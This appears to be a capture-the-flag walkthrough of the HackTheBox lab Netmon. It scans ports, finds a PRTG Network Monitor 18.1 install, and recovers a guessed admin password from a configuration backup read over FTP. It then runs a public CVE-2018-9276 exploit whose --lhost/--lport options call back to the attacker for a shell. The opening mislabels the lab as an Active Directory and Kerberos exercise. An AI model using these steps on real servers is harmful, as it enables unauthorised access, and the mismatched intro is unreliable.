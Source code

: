 # Netmon

Netmon is a easy HTB lab that focuses on active directory, disabled kerberos pre-authentication and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

<!-- toc -->

### Recon

The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.
```
$ sudo nmap -p1-10000 --min-rate 1000 -sV 10.129.229.100

Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-27 00:06 BST
Nmap scan report for 10.129.229.100
Host is up (0.37s latency).
Not shown: 9994 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
21/tcp   open  ftp          Microsoft ftpd
80/tcp   open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.84 seconds
```

Enumerating the website, we can the software and its version.
```
$ curl http://10.129.229.100/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
...
<p>You are using the Freeware version of <a href='https://www.paessler.com?utm_source=prtg&utm_medium=referral&utm_campaign=webgui-freeware'>PRTG Network Monitor</a>. We're glad to help you cover all aspects of the current state-of-the-art <a href='https://www.paessler.com/network_monitoring?utm_source=prtg&utm_medium=referral&utm_campaign=webgui-freeware'>network monitoring!</a>.
<span class="prtgversion">&nbsp;PRTG Network Monitor 18.1.37.13946 </span>
```

From the above request, we got the software name as `PRTG Network Monitor` and version as `18.1.37.13946`. Searching online, we found that https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/. Reading the files on FTP, we get the following file:
```
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
10-26-23  09:53PM              1717102 PRTG Graph Data Cache.dat
```

Read the old bak file as it has diffrent sizes. From the file, we can the old password and update to this 2019 year.

PrTg@dmin2018

The username was prtgadmin and password was PrTg@dmin2019 (NOTE: its 2019 as the file was last modified in 2019)

Searching online, we found that exploit POC - https://github.com/wildkindcc/CVE-2018-9276 and we can use the credentials.

```
$ git clone https://github.com/wildkindcc/CVE-2018-9276.git
$ python CVE-2018-9276.py -h
$ sudo python3 exploit.py -i 10.129.74.116 -p 80 --lhost 10.10.14.106 --lport 4445 --user prtgadmin --password PrTg@dmin2019
```

Getting the flag:
```
cd C:\Users\Administrator\Desktop;
dir;
type root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
